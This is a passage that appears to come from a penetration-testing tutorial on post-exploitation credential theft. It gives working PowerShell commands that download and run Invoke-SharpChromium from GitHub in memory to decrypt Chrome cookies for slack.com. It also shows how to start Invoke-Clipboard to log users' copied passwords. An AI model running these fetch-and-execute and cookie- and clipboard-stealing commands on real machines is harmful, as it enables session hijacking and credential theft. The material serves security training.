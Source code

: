 [SharpChromium](https://github.com/djhohnstein/SharpChromium) does what we need: It connects to the current user SQLite cookie database, decrypts the cookie value, and presents the result in JSON format.

Let's use [Invoke-SharpChromium](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1), a PowerShell script created by [S3cur3Th1sSh1t](https://twitter.com/ShitSecure) which uses reflection to load SharpChromium.

**PowerShell Script - Invoke-SharpChromium**

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')

Invoke-SharpChromium -Command "cookies slack.com"
```

We got an error because the cookie file path that contains the database is hardcoded in [SharpChromium](https://github.com/djhohnstein/SharpChromium/blob/master/ChromiumCredentialManager.cs#L47), and the current version of Chrome uses a different location. **Copy Cookies to SharpChromium Expected Location**:

```powershell
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

We can now use Invoke-SharpChromium again to get a list of cookies in JSON format.

```powershell
Invoke-SharpChromium -Command "cookies slack.com"
```

**Note:** When copy/pasting the contents of a cookie, make sure the value is one line.


## Clipboard

In many companies, network administrators use password managers to store their credentials and copy and paste passwords into login forms.

We can use the [Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1) script to extract user clipboard data. Start the logger by issuing the command below.

```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')

Invoke-ClipboardLogger
```

The script will start to monitor for entries in the clipboard and present them in the PowerShell session. We need to be patient and wait until we capture sensitive information.


## Roles and Services
